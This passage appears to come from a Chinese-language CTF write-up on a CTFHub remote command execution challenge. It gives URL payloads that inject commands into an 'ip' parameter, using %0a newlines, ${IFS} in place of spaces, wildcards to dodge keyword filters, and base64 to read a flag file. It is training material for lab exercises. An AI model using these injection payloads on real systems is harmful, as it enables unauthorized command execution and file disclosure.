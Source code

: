 其中;可以通过%0a换行符来代替掉，所以需要在url来填写payload，得知flag文件在该目录下。

```
http://challenge-5b40c109a9221c66.sandbox.ctfhub.com:10800/?ip=127.0.0.1%0als
```

![image-20240817152423768](远程代码执行/image-20240817152423768.png)	

由于过滤了flag关键字，我们可以通过*号来代替。

```
payload:
http://challenge-5b40c109a9221c66.sandbox.ctfhub.com:10800/?ip=127.0.0.1%0acd${IFS}f***_is_here%0als
```

![image-20240817152739698](远程代码执行/image-20240817152739698.png)	

由于过滤cat和管道符|,那么可以直接使用base64直接获取。

```
payload:
其中%0a是换行符,${IFS}是空格符,f***用于替代flag
http://challenge-5b40c109a9221c66.sandbox.ctfhub.com:10800/?ip=127.0.0.1%0acd${IFS}f***_is_here%0abase64${IFS}f***_23558566620213.php
```
